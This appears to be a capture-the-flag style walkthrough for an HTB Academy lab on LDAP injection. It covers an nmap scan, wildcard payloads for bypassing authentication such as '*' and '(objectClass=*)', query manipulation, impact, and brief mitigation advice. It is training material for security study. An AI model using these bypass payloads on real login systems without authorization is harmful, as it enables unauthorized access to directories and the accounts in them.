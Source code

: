 # 🔍 LDAP Injection Attacks

> **🎯 Objective:** Exploit LDAP injection vulnerabilities in web applications to bypass authentication and access sensitive directory information.

## Overview

**LDAP Injection** attacks target web applications that use **LDAP (Lightweight Directory Access Protocol)** for authentication or user management. By injecting special characters into LDAP queries, attackers can bypass authentication and manipulate directory searches.

---

## HTB Academy Lab Solution

### Lab: Authentication Bypass
**Question:** "After bypassing the login, what is the website 'Powered by'?"

#### Step 1: Service Discovery
```bash
# Nmap scan to identify services
nmap -p- -sC -sV --open --min-rate=1000 TARGET

# Expected results:
# 80/tcp  open  http    Apache httpd 2.4.41 (Ubuntu)
# 389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
```

#### Step 2: LDAP Injection Attack
```bash
# Navigate to login page
# URL: http://TARGET/

# LDAP injection payloads for authentication bypass:
Username: *
Password: *

# Alternative payloads:
Username: admin
Password: *

Username: *
Password: password
```

#### Step 3: Post-Authentication Analysis
```bash
# After successful login bypass, examine the page source
# Look for "Powered by" information in:
# - Page footer
# - HTML comments  
# - HTTP headers
# - About/version pages
```

**Expected Answer:** Framework/CMS name from "Powered by" text *(extract from bypassed page)*

---

## LDAP Injection Techniques

### Common Injection Characters
```bash
# Special LDAP characters for injection
*       # Wildcard - matches any number of characters
( )     # Parentheses - group expressions  
|       # Logical OR operator
&       # Logical AND operator
```

### Authentication Bypass Payloads
```bash
# Wildcard injection
Username: *
Password: *

# Always-true conditions  
Username: (cn=*)
Password: anything

Username: (objectClass=*)
Password: anything
```

### Query Structure Manipulation
```bash
# Original LDAP query:
(&(objectClass=user)(sAMAccountName=$username)(userPassword=$password))

# Injected query with *:
(&(objectClass=user)(sAMAccountName=*)(userPassword=*))
# Result: Matches any user with any password
```

---

## Technical Details

### LDAP Query Components
```bash
# Standard authentication query structure
(&(objectClass=user)(uid=$username)(userPassword=$password))

# Components:
# & = AND operator
# objectClass=user = filter for user objects
# uid=$username = username field
# userPassword=$password = password field
```

### Injection Points
- **Username fields** - Primary injection vector
- **Password fields** - Secondary injection vector  
- **Search filters** - Advanced injection opportunities
- **DN parameters** - Distinguished Name manipulation

### Vulnerable Applications
- **Web portals** using LDAP authentication
- **Enterprise applications** with AD integration
- **Custom applications** with poor input validation
- **Legacy systems** without proper sanitization

---

## Impact Assessment

**Authentication Bypass:**
- **Unauthorized access** to protected resources
- **Administrative privilege escalation**
- **User account enumeration**
- **Directory information disclosure**

**Information Disclosure:**
- **User credentials** and attributes
- **Organizational structure** data
- **Group memberships** and permissions
- **System configuration** details

**Attack Escalation:**
- **Lateral movement** through directory services
- **Privilege escalation** via group membership
- **Data exfiltration** from LDAP directory
- **Further application compromise**

---

## Detection & Mitigation

**Prevention:**
- **Input validation** - Sanitize all user inputs
- **Parameterized queries** - Use prepared statements
- **Least privilege** - Limit LDAP service account permissions
- **Escape special characters** - Remove LDAP metacharacters

**Detection:**
- **Log analysis** - Monitor for LDAP query anomalies
- **Authentication monitoring** - Track failed/successful logins
- **Input validation testing** - Regular security assessments

**💡 Pro Tip:** LDAP injection is often overlooked compared to SQL injection, but it's equally dangerous in enterprise environments with Active Directory integration - always test authentication forms with wildcard characters. 